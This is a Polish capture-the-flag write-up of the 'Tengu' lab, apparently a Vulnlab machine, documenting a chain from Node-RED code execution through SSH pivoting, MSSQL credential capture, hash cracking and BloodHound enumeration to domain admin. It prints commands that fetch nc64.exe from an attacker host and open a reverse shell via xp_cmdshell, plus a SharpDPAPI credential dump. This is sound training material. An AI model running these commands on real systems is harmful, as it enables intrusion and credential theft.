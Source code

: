 # Tengu
Windows,Medium, created by **r0BIT**

```

```


wszystkie znaki na ziemi i niebie wskazują na to, że zaczynamy od hosta `10.10.187.135` :D

![{6E9DB9D2-B72F-4E91-ADDE-0574BDDD7CDE}](https://github.com/user-attachments/assets/d9dbc373-1bc6-4bc7-9ef3-d3d2f2e2793f)

SZCZERZE nie używałem, ale nie wydaje się trudne.

![{F2319065-BD74-4ABB-9AB2-5D9851527316}](https://github.com/user-attachments/assets/b7733ee0-b9e4-45d5-93b0-e59928799455)

pierwsza informacja jaką mamy to, że mssql jest uruchominiony na jednym z dwóhc pozostałych hostów, ale nie mamy obecnie do tego dostępu/widoczności.

drugie co znalazłem `https://gist.github.com/qkaiser/79459c3cb5ea6e658701c7d203a8c297`.

![{C5837A39-E08B-412F-A0F1-4BE6470D205F}](https://github.com/user-attachments/assets/0973e3c6-2301-4c74-b7b3-d9c3590861f0)

ciężko o prostsze rce xD

![{052F70E5-D269-4749-98F7-38C8F7A5ADAF}](https://github.com/user-attachments/assets/201830d6-2546-481f-bf21-9614bff99241)


aaa jednak nie do końca. Jakieś restrykcje są albo exploit słabo napisany. Po tym `Mär` widzę, że jakiś.. niemiecki linuch?
- coś mnie ten "shell" denerwuje to zrobię to po swojemu.

![{263628B0-CA75-4537-ABD6-747B1B7B2140}](https://github.com/user-attachments/assets/eec52ccc-d0c1-40c8-89d8-973966a68216)

![{E5B0AAA4-02B2-44ED-8917-3D4B0A3C5F2D}](https://github.com/user-attachments/assets/d5ac205f-26bd-440f-8034-0b01ce687200)

![{E27A760E-048E-4B75-81EA-3EAEAFB9B82D}](https://github.com/user-attachments/assets/305de14c-9cd0-4a97-9661-a5750227628a)

![{D2E3B0DB-5A0B-44F7-8B9B-9C8036D5736D}](https://github.com/user-attachments/assets/11fcc87d-d7b4-4536-bd6a-54dfdef75199)

teraz można prosto pivotować. `└─$ ssh nodered_svc@10.10.187.135 -i id_rsa -D 1080`

![{C2EBF56C-B66B-41E8-B092-7970BE1EEE28}](https://github.com/user-attachments/assets/8976d3ad-8f61-4443-853d-1a4599b9d819)

z jakiegoś powodu mamy tutaj dostęp, ale nic tu nie ma.

No to lecimy tam gdzie coś mamy.

![{C92B6A45-087E-4830-85FC-A13F7DE7D67A}](https://github.com/user-attachments/assets/7098c1c2-6f3e-4716-ad7c-c1386ed3af27)

w tym nazym poprzednim query widzimy credsy do mssql, ale ich nie odczytamy. 

![{55A74965-AA2D-4972-A911-5F84EB728233}](https://github.com/user-attachments/assets/f0ffcdb1-8f0e-448a-8b24-4f0df79af383)

zmieniamy IP na nasze. Deploy

![mssql](https://github.com/user-attachments/assets/c29eaff3-48cb-4878-8e8c-66a7091fc7ef)

i mamy credsy do mssqla :D
```
proxychains4 -q impacket-mssqlclient nodered_connector:<REDACTED>@10.10.187.134
```
(host drugi)

![{9214E3C7-1EA8-4F3F-8263-76038EB650E5}](https://github.com/user-attachments/assets/d65faa2d-9ca7-4d1a-aa3e-dc5c73b00369)

komend nie wykonamy.

![{CCE1EB47-A20F-4DF8-89EA-F293816ED90D}](https://github.com/user-attachments/assets/58d786c1-e7af-40ee-b933-d6113deb27ed)

![{807CA1C6-06C5-4EF2-8FD3-B42EA11043B9}](https://github.com/user-attachments/assets/87c687b0-024c-47d3-ac16-5d5998fccea7)

jakiś hash się trafił. User taki sam jak na linuxie.

![{61F84B29-CF6B-44AB-B89A-16A13AB262CF}](https://github.com/user-attachments/assets/f0a70ccd-ef7a-495f-bc57-e74a43884598)

proste hasło miał.

![{B9BD7E3B-5112-4EDA-8E65-F2B9DDCD6E1A}](https://github.com/user-attachments/assets/3da8e047-641f-4388-a8db-d833c9bda178)

tutaj pasuje.

![{B4ADEEEE-1604-401F-9E21-0A4BC6EFE61F}](https://github.com/user-attachments/assets/59998335-62c8-4ea2-8cb9-c16093fe340c)

tak szybka eskalacja to obstawiam coś z `/etc/krb5.keytab`

![{220A2E1C-4780-43D8-992B-ABAD0E70219A}](https://github.com/user-attachments/assets/4df9761a-8ba8-44d6-a54b-32c12a4cbd51)

- nie mam pojęcia co robić dalej więc trzeba po prostu wyliczać.

```
proxychains4 -q bloodhound-python -d tengu.vl -u t2_m.winters -p '<NOPE>' -c all -ns 10.10.187.133
```

![{27CD46B3-8C19-4027-9F27-54C60717D560}](https://github.com/user-attachments/assets/faf36887-0879-43be-bc80-d55c2bd2aa4f)

konto maszynowe jest Kerberoastable xD

![{AD53171E-1CD7-4B9F-8C4E-4916D33B6ABB}](https://github.com/user-attachments/assets/5da873d3-7adb-4d30-a6f6-a75174dcc376)

wygląda nieźle.

![{AC42EAD5-521C-4736-A10C-370548AFEA7A}](https://github.com/user-attachments/assets/0315111c-314c-4d47-aff7-fff92fa6c537)

o mamy pełny path. Czyli czytamy tylko GMSA i lecimy tym co wyżej.

![{BCFFFBF4-C2A5-471C-87E3-206313350DA2}](https://github.com/user-attachments/assets/10aa32bb-6b85-4687-ad1f-d0a0c9525656)

![{3F5AF9E7-7C62-42F6-94F5-FA39AD0BA700}](https://github.com/user-attachments/assets/ffb5bfa0-ba22-495c-894d-0c443a62c51e)

![{042F9585-4166-4D66-989B-FD89C1BC7A83}](https://github.com/user-attachments/assets/65a60a16-66cf-457b-aefd-78d2f01bc369)

![{E5B1B54C-1762-4BEE-9C87-10B104BDE7DB}](https://github.com/user-attachments/assets/26c22873-e75f-4961-af8d-5f34e1a71b2b)

![{E2478F4C-DA67-40F4-BA48-78CAD90EB2B6}](https://github.com/user-attachments/assets/7f0c4e80-89a1-46ac-978a-e0676666588d)

```
xp_cmdshell "powershell /c iwr 10.8.4.124/nc64.exe -o C:/Windows/Temp/nc64.exe"
xp_cmdshell "cmd /c C:/Windows/Temp/nc64.exe 10.8.4.124 9001 -e cmd.exe"
```

![{209C0E41-606D-40CF-AB20-718141C1541D}](https://github.com/user-attachments/assets/234bc969-9db9-4f55-8927-8fd2e1a10e58)

![{D81BADA7-528A-4EC8-854A-3125362C1B57}](https://github.com/user-attachments/assets/5cbc918e-4fd8-48b2-ba88-e4be9a5bff47)

GodPotato wchodzi. Zrobić revshella i mamy system.

![{F9B9328F-8FD6-483A-9E76-32F1C537EFFF}](https://github.com/user-attachments/assets/a342d19f-4806-44d5-ad41-847741e69a5a)

yeee

```
iwr 10.8.4.124/SharpDPAPI.exe -o SharpDPAPI.exe
SharpDPAPI.exe machinecredentials /showall
```

![{8FBA1FDB-EC03-49FC-85BA-A9E51C373E92}](https://github.com/user-attachments/assets/2d313526-18e8-494f-8b64-6338f5d87523)

o domain admin. Łatwo poszło

![da](https://github.com/user-attachments/assets/e22d33cd-9f60-40ab-bba7-5360a9bb0d9c)

![{803C48BC-E612-476E-8392-CD7780C8BE0B}](https://github.com/user-attachments/assets/68797e8d-6b86-44e5-9fce-e0ff77d1032f)


### mi nie działa

```
cat /etc/krb5.conf                               
[libdefaults]
        default_realm = TENGU.VL
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]
        TENGU.VL = {
                kdc = dc.tengu.vl
        }

[domain_realm]
        .tengu.vl = TENGU.VL
```

![{AA4B3826-D0F7-436F-8197-80E76E7DFFF4}](https://github.com/user-attachments/assets/9db9698a-ddc1-4ece-9f76-2d8c2a350948)


FINISH


